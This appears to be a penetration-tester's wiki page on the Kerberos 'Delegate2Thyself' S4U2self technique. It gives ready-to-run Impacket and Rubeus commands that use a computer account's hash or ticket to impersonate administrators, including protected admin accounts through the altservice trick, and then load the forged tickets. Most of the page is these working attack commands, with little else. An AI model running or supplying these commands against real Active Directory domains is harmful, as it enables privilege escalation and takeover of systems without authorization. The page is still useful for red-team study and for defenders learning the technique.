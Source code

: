 ```yaml
---
title: Delegate2Thyself
---
```


Powered by [[notes/ad/kerberos-s4u2self]].

With the NT hash or TGT of a computer account impersonate an admin against the computer ([source](https://twitter.com/snovvcrash/status/1576176707270479873)).
This does not work with users that are member of the *Protected Users* group or have the *This account is sensitive and can not be delegated* flag.

=== "[[notes/tools/impacket]]"
    Requires [PR 1202](https://github.com/SecureAuthCorp/impacket/pull/1202).

    ~~~ bash
    impacket-getst -impersonate administrator -self -spn cifs/srv01.corp.local -k -no-pass 'corp.local/srv01$'
    export KRB5CCNAME=$PWD/administrator.ccache
    ~~~

You can impersonate protected admins by specifying an `altservice` ([source](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition#bkmrk-impersonate-protecte)).
Or you can impersonate privileged computers like Domain Controllers.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-getst -impersonate jdoeadm -self -altservice cifs/srv01.corp.local -k -no-pass 'corp.local/srv01$'
    export KRB5CCNAME=$PWD/jdoeadm.ccache
    ~~~

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe s4u /nowrap /impersonateuser:jdoeadm /self /altservice:cifs/srv01.corp.local /user:srv01$ /aes256:%key%
    ~~~

References:

- [Revisiting Delegate 2 Thyself](http://web.archive.org/web/20220823203349/https://exploit.ph/revisiting-delegate-2-thyself.html)
